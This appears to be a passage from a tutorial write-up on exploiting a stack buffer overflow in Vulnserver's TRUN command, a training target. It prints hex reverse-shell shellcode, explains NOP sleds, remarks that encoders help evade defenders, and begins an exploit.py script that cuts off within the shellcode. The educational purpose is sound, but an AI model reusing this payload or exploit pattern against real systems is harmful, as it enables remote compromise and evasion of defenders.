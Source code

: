 ```c
buf += b"\xf5\x15\xb9\xd6\x71\x71\xde\xe9\x56\x0a\xda\x62\x59"
buf += b"\xdc\x6a\x30\x7e\xf8\x37\xe2\x1f\x59\x92\x45\x1f\xb9"
buf += b"\x7d\x39\x85\xb2\x90\x2e\xb4\x99\xfc\x83\xf5\x21\xfd"
buf += b"\x8b\x8e\x52\xcf\x14\x25\xfc\x63\xdc\xe3\xfb\x84\xf7"
buf += b"\x54\x93\x7a\xf8\xa4\xba\xb8\xac\xf4\xd4\x69\xcd\x9e"
buf += b"\x24\x95\x18\x30\x74\x39\xf3\xf1\x24\xf9\xa3\x99\x2e"
buf += b"\xf6\x9c\xba\x51\xdc\xb4\x51\xa8\xb7\x7a\x0d\xc6\xc7"
buf += b"\x13\x4c\x26\xee\x77\xd9\xc0\x84\x67\x8c\x5b\x31\x11"
buf += b"\x95\x17\xa0\xde\x03\x52\xe2\x55\xa0\xa3\xad\x9d\xcd"
buf += b"\xb7\x5a\x6e\x98\xe5\xcd\x71\x36\x81\x92\xe0\xdd\x51"
buf += b"\xdc\x18\x4a\x06\x89\xef\x83\xc2\x27\x49\x3a\xf0\xb5"
buf += b"\x0f\x05\xb0\x61\xec\x88\x39\xe7\x48\xaf\x29\x31\x50"
buf += b"\xeb\x1d\xed\x07\xa5\xcb\x4b\xfe\x07\xa5\x05\xad\xc1"
buf += b"\x21\xd3\x9d\xd1\x37\xdc\xcb\xa7\xd7\x6d\xa2\xf1\xe8"
buf += b"\x42\x22\xf6\x91\xbe\xd2\xf9\x48\x7b\xe2\xb3\xd0\x2a"
buf += b"\x6b\x1a\x81\x6e\xf6\x9d\x7c\xac\x0f\x1e\x74\x4d\xf4"
buf += b"\x3e\xfd\x48\xb0\xf8\xee\x20\xa9\x6c\x10\x96\xca\xa4"
```

We have created a shellcode of ```351 bytes``` which will perfectly fit into our buffer
                                                              
Usage of ```encoders``` may reduce the risk of getting caught by defenders

## Exploiting the Vulnserver

Now we have gone through every steps and crafted our final exploit to gain shell on our target machine

We have to add ```NOPs``` aka ```NO OPERATION``` to our shellcode, in hex it is given as ```x90```

It should be added with the multiple of 4 (since we are exploiting 32 bit)

By adding nops, we will be performing ```nop-sled```, which will make the probability for execution of our shellcode higher

The exploit script for this ```buffer overflow``` via ```TRUN``` command is,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat exploit.py
import socket, sys

# shellcode to spawn reverse shell
buf =  b""
buf += b"\xda\xd2\xbe\x39\xe1\xbc\xa2\xd9\x74\x24\xf4\x5d\x2b"
buf += b"\xc9\xb1\x52\x31\x75\x17\x83\xed\xfc\x03\x4c\xf2\x5e"
buf += b"\x57\x52\x1c\x1c\x98\xaa\xdd\x41\x10\x4f\xec\x41\x46"
buf += b"\x04\x5f\x72\x0c\x48\x6c\xf9\x40\x78\xe7\x8f\x4c\x8f"
buf += b"\x40\x25\xab\xbe\x51\x16\x8f\xa1\xd1\x65\xdc\x01\xeb"
buf += b"\xa5\x11\x40\x2c\xdb\xd8\x10\xe5\x97\x4f\x84\x82\xe2"
buf += b"\x53\x2f\xd8\xe3\xd3\xcc\xa9\x02\xf5\x43\xa1\x5c\xd5"
buf += b"\x62\x66\xd5\x5c\x7c\x6b\xd0\x17\xf7\x5f\xae\xa9\xd1"
buf += b"\x91\x4f\x05\x1c\x1e\xa2\x57\x59\x99\x5d\x22\x93\xd9"
buf += b"\xe0\x35\x60\xa3\x3e\xb3\x72\x03\xb4\x63\x5e\xb5\x19"
buf += b"\xf5\x15\xb9\xd6\x71\x71\xde\xe9\x56\x0a\xda\x62\x59"
buf += b"\xdc\x6a\x30\x7e\xf8\x37\xe2\x1f\x59\x92\x45\x1f\xb9"
buf += b"\x7d\x39\x85\xb2\x90\x2e\xb4\x99\xfc\x83\xf5\x21\xfd"
buf += b"\x8b\x8e\x52\xcf\x14\x25\xfc\x63\xdc\xe3\xfb\x84\xf7"
buf += b"\x54\x93\x7a\xf8\xa4\xba\xb8\xac\xf4\xd4\x69\xcd\x9e"
buf += b"\x24\x95\x18\x30\x74\x39\xf3\xf1\x24\xf9\xa3\x99\x2e"
buf += b"\xf6\x9c\xba\x51\xdc\xb4\x51\xa8\xb7\x7a\x0d\xc6\xc7"
buf += b"\x13\x4c\x26\xee\x77\xd9\xc0\x84\x67\x8c\x5b\x31\x11"
buf += b"\x95\x17\xa0\xde\x03\x52\xe2\x55\xa0\xa3\xad\x9d\xcd"
buf += b"\xb7\x5a\x6e\x98\xe5\xcd\x71\x36\x81\x92\xe0\xdd\x51"
buf += b"\xdc\x18\x4a\x06\x89\xef\x83\xc2\x27\x49\x3a\xf0\xb5"
buf += b"\x0f\x05\xb0\x61\xec\x88\x39\xe7\x48\xaf\x29\x31\x50"
```